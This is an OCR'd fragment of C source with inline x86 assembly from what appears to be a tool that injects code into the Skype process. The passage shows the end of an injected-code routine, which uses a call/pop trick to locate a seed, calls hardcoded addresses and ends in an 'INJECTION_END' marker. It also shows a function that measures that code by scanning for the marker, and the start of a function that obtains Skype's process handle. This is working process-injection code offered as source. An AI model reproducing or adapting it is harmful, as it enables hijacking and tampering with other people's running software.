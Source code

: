 ```
                ret
                //Seed:
                INT 3
                INT 3
                INT 3
                INT 3
                SeedGet:
            _emit 0xE8
                _emit 0x00
                _emit 0x00
                _emit 0x00
                _emit 0x00
                pop eax
                sub eax, 0x09
                mov eax, dword ptr[eax]
                ret
                BeginOCode :
            call KeyAddrGet
                mov ecx, eax
                call SeedGet
                mov edx, eax
                mov eax, 0x0075D470
                call eax
                //mov eax, 0x7C80C058 //ON COMMON MACHINE : ExitThread Address
                //mov eax, 0x77E54A8F //ON "NEUF" MACHINE
                mov eax, 0x401304
                call eax        
    
                DEC ECX //I
                DEC ESI //N
                DEC EDX //J
                INC EBP //E
                INC EBX //C
                PUSH ESP //T
                DEC ECX //I
                DEC EDI //O
                DEC ESI //N
                POP EDI //_
                INC EBP //E
                DEC ESI //N
                INC ESP //D
        }
    }        
    
    int SizeOfCode()
    {
        int Size;
        char *Proc;
        char Buffer[14] = { 0 };        
    
        Size = 0;
        Proc = (char *)InjectedCode;
        do
        {
            memcpy(Buffer, Proc, 13);
            Size++;
            Proc++;
        } while (strcmp(Buffer, "INJECTION_END"));
        return (Size - 1);
    }        
    
    DWORD GetSkypeProcessHandle()
    {
```